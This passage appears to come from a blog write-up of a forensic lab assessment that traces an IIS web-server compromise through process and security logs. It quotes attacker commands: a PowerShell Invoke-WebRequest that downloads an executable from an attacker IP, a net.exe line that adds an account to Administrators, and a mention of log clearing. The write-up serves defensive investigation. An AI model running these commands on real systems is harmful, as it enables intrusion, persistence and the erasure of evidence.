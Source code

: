 It all begins at the `w3wp.exe` which is responsible for handling web requests in Microsoft's Internet Information Services (IIS) web server. We see the `csc.exe` -which is the C# compiler from Roslyn- compile something written in `nh0n1u4h.cmdline`. After that we see the web server started a `cmd.exe`, this match "a web server that is vulnerable to unrestricted file uploads. They exploit the web server to establish remote access." that we were told and how the attacker gained the initial access. Initial access was at `2025-03-24 12:33:51`.

Next the attacker invoked a we request to get a file from his server `Invoke-WebRequest -Uri http://10.0.9.2:8000/calc.exe -OutFile C:\Users\Public\calc.exe` and later executed it. `calc.exe` itself later opened a `cmd.exe` which means a reverse shell was sent to the attacker. Also there is more commands were executed: 

![](/assets/images/posts/2025-03-28-we-innovate-final-assessment/06.png)

The attacker created two users `sam` and `messi` or at least that what it seemed, then added `messi` to two groups `Adminstrators` and `Remore Desktop Users` as a persistence method. Later he executed `diskpart.exe` which is a command-line disk partitioning utility included in Windows. It allows users to manage disks, partitions, volumes and execute destructive commands (like clean or delete) that could wipe the disk. After that he executed `wevutil.exe` to delete the system, application and security logs.

Two things to notice: First, there is a time gap between the attacker’s actions, which is odd, and we may not be seeing the full picture. Second, how did the attacker manage to create users? Even if they achieved remote code execution by compromising the web server, that doesn’t necessarily mean they had the privilege to do so, as the web server itself lacks this privilege. We need to investigate this further.

Seeing a process run with arguments like `"C:\Windows\system32\net.exe" localgroup Administrators messi /add` doesn’t necessarily mean the command executed successfully. We need to confirm whether it was successful or not. Lucky for us the `system.security` log exited process with the exit status. I will filter with `event.code : 4689` which is the `event.action : exited-process` and look specifically for `net.exe` with this filter:
```
host.hostname : "castelblack"  and data_stream.dataset : "system.security" and event.code : 4689 and process.name : net.exe
```
